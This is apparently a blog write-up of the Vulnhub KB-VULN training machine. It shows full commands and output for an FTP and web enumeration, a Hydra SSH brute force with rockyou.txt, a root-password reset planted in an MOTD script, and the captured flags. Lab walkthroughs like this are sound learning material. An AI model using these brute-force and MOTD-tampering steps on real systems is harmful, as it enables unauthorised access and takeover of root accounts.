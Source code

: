 ```yaml
---
title: Vulnhub - KB-VULN
description: My writeup on KB-VULN box.
categories:
 - vulnhub
tags: vulnhub hydra ssh motd
---
```


![](https://www.creativefabrica.com/wp-content/uploads/2019/03/Monogram-KB-Logo-Design-by-Greenlines-Studios.jpg)

You can find the machine there > [KB-VULN](https://www.vulnhub.com/entry/kb-vuln-1,540/){:target="_blank"}

## Summary

This machine is an easy one, from source code enumeration we can detect a username and ssh brute force with it. After gaining a low-privilege shell we can exploit motd daemon and change root password. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.20
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 00:11 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00017s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:09:6B:FC (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.14 seconds
$ nmap -p 21,22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 00:11 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:84:46:ae:47:21:d1:73:7d:2f:0a:66:87:98:af:d3 (RSA)
|   256 af:79:86:77:00:59:3e:ee:cf:6e:bb:bc:cb:ad:96:cc (ECDSA)
|_  256 9d:4d:2a:a1:65:d4:f2:bd:5b:25:22:ec:bc:6f:66:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: OneSchool &mdash; Website by Colorlib
```

Let's start the enumeration on port 21 since we have to anonymous allowed, we can see a `.bash_history` file let's download it.

```
$ ftp $ip
Connected to 192.168.1.20.
220 (vsFTPd 3.0.3)
Name (192.168.1.20:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    2 1000     1000         4096 Aug 22 17:39 .
drwxrwxr-x    2 1000     1000         4096 Aug 22 17:39 ..
-rw-r--r--    1 0        0              54 Aug 22 17:39 .bash_history
226 Directory send OK.
ftp> get .bash_history
local: .bash_history remote: .bash_history
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .bash_history (54 bytes).
226 Transfer complete.
```

At the time is useless, maybe we can use it later.

```
$ cat .bash_history 
exit
ls
cd /etc/update-motd.d/
ls
nano 00-header
exit
```

## Shell as sysadmin

Let's move on, port 80 source code gives us a username probably system one because i can't find a way to use it on web.

```html
$ curl http://$ip/
<!DOCTYPE html>
<html lang="en">
<head>
<title>OneSchool &mdash; Website by Colorlib</title>
<meta charset="utf-8">

...data...

<!-- Username : sysadmin -->
```

Let's try to ssh brute force with it, using rockyou.txt. & here we go!

```
$ hydra -l sysadmin -P /usr/share/wordlists/rockyou.txt $ip ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-14 00:20:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.20:22/
[22][ssh] host: 192.168.1.20   login: sysadmin   password: password1
```

```
$ ssh sysadmin@$ip
sysadmin@192.168.1.20's password: 

sysadmin@kb-server:~$ whoami;id
sysadmin
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

## Shell as root

Before we found something interesting from FTP, the `/etc/update-motd.d/` & `00-header`. MOTD(Message Of The Day daemon) is the welcome message that show to a user upon the terminal login. Modifying the `/etc/motd` file you can change the welcome message. But for better configuration you can use the scripts located in the `/etc/update-motd.d` directory.

So we can add a command that change root password and the next time we login, the MOTD will execute it. (MOTD is running as root)

```
sysadmin@kb-server:/etc/update-motd.d$ echo "echo 'root:pwned' | sudo chpasswd" >> 00-header 
sysadmin@kb-server:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\n\t\t\tWELCOME TO THE KB-SERVER\n"
echo 'root:pwned' | sudo chpasswd
sysadmin@kb-server:/etc/update-motd.d$ exit
logout
Connection to 192.168.1.20 closed.
```

Now we can simply login and root password will change. :zap:

```
$ ssh sysadmin@$ip                                             
sysadmin@192.168.1.20's password: 

sysadmin@kb-server:~$ su - root
Password: 
root@kb-server:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flags.

```
root@kb-server:~# cat /home/sysadmin/user.txt 
48a365b4ce1e322a55ae9017f3daf0c0
root@kb-server:~# cat flag.txt 
1eedddf9fff436e6648b5e51cb0d2ec7
```

I enjoyed this privilege escalation. :smile:


